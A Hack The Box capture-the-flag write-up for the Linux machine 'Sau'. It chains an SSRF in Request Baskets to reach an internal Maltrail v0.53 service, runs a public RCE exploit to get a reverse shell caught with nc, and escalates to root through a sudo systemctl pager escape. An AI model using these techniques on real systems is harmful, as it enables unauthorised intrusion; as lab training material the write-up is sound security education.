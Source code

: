 ```yaml
---
description: >-
  r3dp0int's writeup on the Easy-difficulty Linux machine Sau from 
  https://hackthebox.com
title: Hack The Box - Sau Writeup                    # Add title of the machine here
date: 2023-07-29 08:00:00 -0600                           # Change the date to match completion date
categories: [Hack the Box, Writeup]                     # Change Templates to Writeup
tags: [htb, hacking, hack the box, writeup, linux, web, sudo, SSRF, python, redteam]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                   # Change this to true
image: ../../../assets/img/Sau/Sau-infocard.png         # Add infocard image here for post preview image

---
```

![Machine information card](../../../assets/img/Sau/Sau-infocard.png)

## Overview
Sau is an easy rated Linux machine on Hack The Box that is vulnerable to an SSRF exploit, and unauthorised RCE through a vulnerable internal web service.

## Recon
Firstly, we start by running an nmap scan on the target IP with the command: `nmap -vv -Pn -T4 -sCV [target IP]`
- `-vv` to increase nmap scan verbosity
- `-Pn` to disable host discovery
- `-T4` to increase scan speed
- `-sCV` to enumerate service version/information and enable common script scans

```
/Downloads/htb/Sau ❯ nmap -vv -Pn -T4 -sCV 10.10.11.224
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-04 18:35 AEST
Nmap scan report for 10.10.11.224
Host is up, received user-set (0.016s latency)
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE REASON      VERSION
22/tcp    open     ssh     syn-ack     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp    filtered http    no-response
55555/tcp open     unknown syn-ack
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Fri, 04 Aug 2023 08:36:02 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Fri, 04 Aug 2023 08:35:36 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Fri, 04 Aug 2023 08:35:36 GMT
|_    Content-Length: 0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Nmap done: 1 IP address (1 host up) scanned in 89.57 seconds
```
From our Nmap scan, we can see that there are three open ports: 22, 80 and 55555. Port 80 is filtered with no response from the scan, and is inaccessible via web browser (which tells me that it may be an SSRF exploit, or may require port forwarding after gaining low level system access).

## Port 55555
We'll move onto exploring port 55555, and discover that it is accessible via web browser, and displays the Request Baskets web application.
![Request Baskets page](../../../assets/img/Sau/RequestBaskets-webpage.png)
The first step here is to search Google for Request Baskets exploits. Our search reveals the following page with an SSRF exploit POC:
[request-baskets SSRF details - CodiMD (sjtu.edu.cn)](https://notes.sjtu.edu.cn/s/MUUhEymt7).

Reading this page shows that Request Baskets is indeed vulnerable to SSRF:
![Request Baskets exploit payload](../../../assets/img/Sau/exploit-1.png)
Following the instructions on this page, we will open Burp Suite, then create a new basket on the Request Baskets page and capture the HTML request.
We will however change parts of the payload to be: 
- `"forward_url": "http://127.0.0.1:80"` 
- `"proxy_response": true`

which will forward the web application at `http://127.0.0.1:80` to us in the web browser.

We then open the newly created basket and are presented with a URL that is configured to respond with our custom payload.
![Exploit basket](../../../assets/img/Sau/exploit-basket.png)

If we visit this URL (`http://10.10.11.224:55555/exploit`) in our web browser, we can see that we have been redirected to a new web page: the web application located at port 80, that was inaccessible to us earlier.
![Maltrail page](../../../assets/img/Sau/maltrail-page.png)

We now need to run a Google search for Maltrail v0.53 exploits. The search leads us to the page: [spookier/Maltrail-v0.53-Exploit (github.com)](https://github.com/spookier/Maltrail-v0.53-Exploit) and a POC for an unauthenticated RCE exploit.
We then download the exploit python file and run it from our local terminal, while listening on the chosen port (1234 in this instance):

```
~/Downloads/htb/Sau ❯ python3 maltrail.py 10.10.14.35 1234 http://10.10.11.224:55555/test/login
Running exploit on http://10.10.11.224:55555/test/login
```

```
~/Downloads/htb/Sau ❯ nc -nlvp 1234                                           1m 16s 21:03:41
listening on [any] 1234 ...
connect to [10.10.14.35] from (UNKNOWN) [10.10.11.224] 42822
$ id 
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
```
As we can see, we've received a reverse shell as a low level user "Puma".
We can upgrade to a fully interactive shell using:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Then navigate to the /home/puma/ folder and get the user flag:

```
puma@sau:/opt/maltrail$ cd
cd
puma@sau:~$ ls -lah
ls -lah
total 32K
drwxr-xr-x 4 puma puma 4.0K Jun 19 12:25 .
drwxr-xr-x 3 root root 4.0K Apr 15 09:17 ..
lrwxrwxrwx 1 root root    9 Apr 14 17:46 .bash_history -> /dev/null
-rw-r--r-- 1 puma puma  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 puma puma 3.7K Feb 25  2020 .bashrc
drwx------ 2 puma puma 4.0K Apr 15 09:42 .cache
drwx------ 3 puma puma 4.0K Apr 15 09:51 .gnupg
-rw-r--r-- 1 puma puma  807 Feb 25  2020 .profile
lrwxrwxrwx 1 puma puma    9 Apr 15 09:41 .viminfo -> /dev/null
lrwxrwxrwx 1 puma puma    9 Apr 15 09:41 .wget-hsts -> /dev/null
-rw-r----- 1 root puma   33 Aug  4 04:51 user.txt
puma@sau:~$ cat user.txt
```
## Privilege Escalation
Our focus now switches to privilege escalation so that we can gain administrative permissions on the system.
We could transfer and run the Linpeas script, but it is a good idea to test some simple PrivEsc techniques first.
Running `sudo -l` reveals that user puma can run a command as root:

```
puma@sau:~$ sudo -l 
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
This is a promising vector, and a visit to the [Systemctl page at GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/) explains the simplicity of privilege escalation in this situation (Sudo, section (c)).
When we run `sudo /usr/bin/systemctl status trail.service`, we can see that it is printed with a pager (like the less binary), which we can escape into an elevated shell with `!sh`:

```
puma@sau:~$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Fri 2023-08-04 04:51:25 UTC; 6h ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 892 (python3)
      Tasks: 25 (limit: 4662)
     Memory: 49.2M
     CGroup: /system.slice/trail.service
             ├─ 892 /usr/bin/python3 server.py
             ├─1206 /bin/sh -c logger -p auth.info -t "maltrail[892]" "Failed p>
             ├─1212 /bin/sh -c logger -p auth.info -t "maltrail[892]" "Failed p>
             ├─1215 sh
             ├─1216 python3 -c import socket,os,pty;s=socket.socket(socket.AF_I>
             ├─1217 /bin/sh
             ├─1228 /bin/sh -c logger -p auth.info -t "maltrail[892]" "Failed p>
             ├─1229 /bin/sh -c logger -p auth.info -t "maltrail[892]" "Failed p>
             ├─1232 sh
             ├─1233 python3 -c import socket,os,pty;s=socket.socket(socket.AF_I>
             ├─1234 /bin/sh
             ├─1239 sudo /usr/bin/systemctl status trail.service !sh
             ├─1760 /bin/sh -c logger -p auth.info -t "maltrail[892]" "Failed p>
             ├─1761 /bin/sh -c logger -p auth.info -t "maltrail[892]" "Failed p>
lines 1-23!sh
!sshh!sh
# id
id
uid=0(root) gid=0(root) groups=0(root)
```

We have root!

We can now navigate to the root user's home folder and get the root flag:

```
# cd /root
cd /root
# ls     
ls
go  root.txt
# cat root.txt
```

Done!

![machine proof](../../../assets/img/Sau/Sau-Pwned.png)

If you like this content and would like to see more, please consider [buying me a coffee](https://bmc.link/otsx)!